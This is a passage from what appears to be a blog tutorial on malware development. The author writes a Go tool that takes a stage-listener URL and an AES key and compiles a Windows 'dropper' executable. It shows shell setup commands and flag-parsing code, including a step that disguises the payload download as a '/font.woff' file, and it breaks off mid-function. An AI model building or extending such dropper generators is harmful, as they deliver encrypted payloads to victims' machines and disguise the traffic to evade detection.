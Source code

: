 Now we have our dropper with aes support, however I'm too lazy to change the `url` and `key` into the code everytime I start a new stage-listener, and I have to compile it manually. So let's use `template` to automate this thing

I want my program to

- Input `url` and `key` 
- Compile the code for me

### Input

I prefer the flag library from project discovery. Now let's create a new folder for our automation

```
root@ubuntu:~/Documents# mkdir dropper
root@ubuntu:~/Documents# cd dropper/
root@ubuntu:~/Documents/dropper# go mod init dropper
go: creating new go.mod: module dropper
root@ubuntu:~/Documents/dropper# touch main.go

// create a folder named out to holds our generated executable
root@ubuntu:~/Documents/dropper# mkdir out

// Copy needed functions from previous project
root@ubuntu:~/Documents/dropper# cp -r ../blogcode/run .
```

Let's get all our command line flag ready

``` go
package main

import (
	"fmt"
	"log"

	"github.com/projectdiscovery/goflags"
)
// struct that holds our inputs
type options struct {
	Url  string
	Key  string
	Save string
}

func main() {
	opt := &options{}

	flagSet := goflags.NewFlagSet()
	flagSet.SetDescription("Generate dropper for http(s) stage-listener")

	flagSet.StringVarP(&opt.Url, "url", "u", "", "eg:https://example.com stage-listener url")
	flagSet.StringVarP(&opt.Key, "key", "k", "", "aes encrypt key")
	// By default we generate our executeable into out folder
	// So don't forget to create one!
	flagSet.StringVarP(&opt.Save, "save", "s", "out/out.exe", "file location to save (Default ./out/out.exe)")

	if err := flagSet.Parse(); err != nil {
		log.Fatalf("Could not parse flags: %s\n", err)
	}
	// the url will be https://example.com 
	// We will add the file extension in here
	opt.Url = opt.Url + "/font.woff"

	if opt.Url == "" || opt.Key == "" {
		log.Fatalf("Need both url and key!\n")
```